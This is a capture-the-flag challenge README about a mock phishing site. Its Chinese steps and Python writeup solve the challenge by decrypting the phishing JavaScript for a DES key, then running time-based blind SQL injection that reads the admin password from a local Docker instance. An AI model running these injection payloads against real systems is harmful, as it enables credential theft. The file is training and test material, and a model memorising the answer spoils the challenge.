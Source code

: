 # Phishing Attack Sample

警告：此题目源码切不可用于非法用途

## 步骤

1. 手机端（或改ua）打开钓鱼页(也可直接抓包看js去，但是钓鱼的前端我们就白伪造了)

2. 抓包看http历史，得到evil js和真实钓鱼网站（可参考（[从钓鱼样本到某大厂存储型XSS](http://www.k0rz3n.com/2018/04/29/%E4%BB%8E%E9%92%93%E9%B1%BC%E6%A0%B7%E6%9C%AC%E5%88%B0%E6%9F%90%E5%A4%A7%E5%8E%82%E5%AD%98%E5%82%A8%E5%9E%8BXSS/)或[Anatomy of a Phishing Attack Sample](https://amyang.xyz/posts/Anatomy-of-a-Phishing-Attack-Sample)））

3. 解密evil js知道钓鱼思路并获得des加密的key（前端加密数据包）

4. 普通insert时间盲注钓鱼网站即可获得flag(admin密码)

## Writeup

```python
from Crypto.Cipher import DES
import base64
import requests

def des_ecb_encrypt(key, text):
    des = DES.new(key, DES.MODE_ECB)
    return des.encrypt(text)

def padding(form):
    return form + ("1"*(8-len(form)%8))

def doRequest(payload):
    url = "http://127.0.0.1:8001/f701fee85540b78d08cb276d14953d58"
    try:
        req = requests.post(url,data={"data":payload},timeout=3)
    except:
        return 1

if __name__ == '__main__':
    key = 'MiaoMiao'
    flag = ''
    for i in range(1,39):
        for char in '1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ,_-{}':
            payload = "a'xor if(ascii(substr((select password from admin limit 1),%d,1))=%d,sleep(5),null)='" % (i,ord(char))
            form = "hrUW3PG7mp3RLd3dJu=123456789&LxMzAX2jog9Bpjs07jP=%s&ip="%(payload)
            encrypted = base64.b64encode(des_ecb_encrypt(key, padding(form)))
            if doRequest(encrypted):
                flag += char
                print(flag)
                break
    print(flag)
```

## 部署

`docker-compose up --build`